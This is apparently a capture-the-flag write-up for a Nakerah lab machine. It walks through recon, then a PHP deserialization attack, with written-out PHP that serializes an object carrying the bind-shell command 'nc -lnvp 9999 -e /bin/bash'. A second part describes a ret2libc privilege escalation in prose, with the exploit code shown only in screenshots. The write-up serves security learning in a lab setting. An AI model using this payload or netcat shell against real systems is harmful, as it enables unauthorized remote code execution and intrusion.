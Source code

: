 <div align="center"><h1>Nakerah CTF </h1></div>
Peace, mercy and blessings of God 

today we are going to solve an interesting CTF from  [Nakerah!](www.nakerah.net)
>our goal is to read root's flag  
expolit will be devided into two missions first deserilization attack then ret2libc

so with all that being said; let's right jump in !!

# First mission

first we have that static page 
[logo]: img/1.png
![alt text](img/1.png "static page")

looking around source code nothing interested there 
[logo]: img/2.png
![alt text](img/2.png "source code")

so let's nmap it
[logo]: img/3.png
![alt text](img/3.png "nmap result")

as we see we have some other ports 
* 22 ssh we dont have any creds and it seems to be updated
* 25 smtp is filtered so we maybe come back to it later
* 80 http we already checked it

so lets visit port 8080 and see what behind the scene
[logo]: img/4.png
![alt text](img/4.png "port 8080")

just another blank page (: i get bored so let's gobuster it :XD
 [logo]: img/5.png
![alt text](img/5.png "gobuster")

 we have /backup file seems to be interesting let's dump it
 [logo]: img/6.png
![alt text](img/6.png "source code")

 after downloading the file it's php code 
 [logo]: img/7.png
![alt text](img/7.png "backup file")

 # analysis of code
 ```php
 class exCommand{
        public function __destruct(){
            system($this->command);
        }
    }
 ```
* here it creates an exCommand class and use a magic method `destruct` then pass the value of command propert to `system` function
Destruct is php magic method automatically called and allows you to perform some operations before destroying an object which will be our attack vector

```php
class Hello{
        private $name;
        private $role;
        private $isSet;
        public function check(){
           $this->isSet=isset($_COOKIE['name']);
        }
        
        }
    }
```

* here creating class Hello with some private properties and check function to verify if there's a cookie name  

```php
public function printHello(){
            if($this->isSet){
                echo "<br >" . $_COOKIE['name']."<br /><br /><br />";
                echo "Hello " . $this->name . "<br>";
                echo "your role is " . $this->role . "\n";
                echo "<br ><br ><br >";
            }else{
                echo "good";
            }
```

* another function `printHello` fisrt verify if there's a property isSet it will print our cookie, say hello to our cookie name and print our role but if not it will just print good

```php
$obj = unserialize($_COOKIE['name']);
$obj->check();
$obj->printHello();
```

* at last here it create an var, assign it's value to our deserialized cookie passing it to check and `printHello` functions

```console 
so to stay focus here it's `deserilization attack` and we need to pass our command to exCommand function which has that magic method
we have two problems first with exCommand class we used a property command without identifying it so in our exploit we will have to pass it to an object and  give it a vlaue
second problem  we have to bypass that cookie checks so let's write our exploit code
the trick here is if we bypass check function it will just print some staff and if we try to target our exCommand class it will fail with check function so ...
```

so we will create `exCommand object`, identify command property with a value (our command) put it inside  `Hello calss` and selialize all that staff together

[logo]: img/ex.png
![alt text](img/ex.png "exploit code")

# code analysis:

```php
class exCommand{
   public function __destruct()}
   system($this->command);
   }
   }
 ```
 
* here we just create the same exCommand class,

```php
$x = new exCommand;
$x->command = "nc -lnvp 9999 -e /bin/bash";
create our object and give the command property our target command (bind shell)$y = new Hello;
class Hello{
        public $name;
        public $role;
        public $isSet;
        public $dummy;
}
```

* create class hello with some properites (dummy one is interesring just continue ..!)

```php
$y->name = "fady";
$y->role = "hacker";
$y->isSet = 1;
$y->dummy = $x;
print serialize($y);
```

* creating an oject of Hello class assining some values to properties and what interesting here it that `dummy propety` we gave it a value of  our `exCommand object` and finally serialize all that staff and here is our final serialized data

[logo]: img/8.png
![alt text](img/8.png "serialized data")

and let's try connect
[logo]: img/9.png
![alt text](img/9.png "sending payload")

* and voila we get our shell 
[logo]: img/sh.png
![alt text](img/sh.png "spawingin a shell")

<div allign="center"> <h2>fisrt missin completed successfully</h2> </div>

---
---

# Second mission

in the root dir we got README file

[logo]: img/11.png
![alt text](img/11.png "static page")

>NX which stand for non-executable so here we know it's BOF expolit with ret2libc

after some enum we got that interesting suid file

[logo]: img/12.png
![alt text](img/12.png "static page")

so after getting it in our local machine to understand it better 

[logo]: img/13.png
![alt text](img/13.png "static page")

we can identify that NX is enables trying to run it gives seg fault after trying passing some args it just exit

[logo]: img/14.png
![alt text](img/14.png "static page")

so let's create our buffer with msf-patter-create and fire up gdb to get the exact offset

[logo]: img/15.png
![alt text](img/15.png "static page")

to get things more easily let's check ASLR in the vectim machine

[logo]: img/16.png
![alt text](img/16.png "static page")

and happy news  will make our life easier so hence we will work in our target machine to get some address

[logo]: img/17.png
![alt text](img/17.png "static page")

we got addresses of system and exit now we need address of /bin/sh

[logo]: img/18.png
![alt text](img/18.png "static page")

to get the exact address of /bin/sh in the run time we add its address to the starting of libc address

[logo]: img/19.png
![alt text](img/19.png "static page")

now our exploit is complete lets have a lock at it

[logo]: img/20.png
![alt text](img/20.png "static page")

now let's give it a try

[logo]: img/21.png
![alt text](img/21.png "static page")

and finally i want to say to Nakerah team “You're the best.”
 
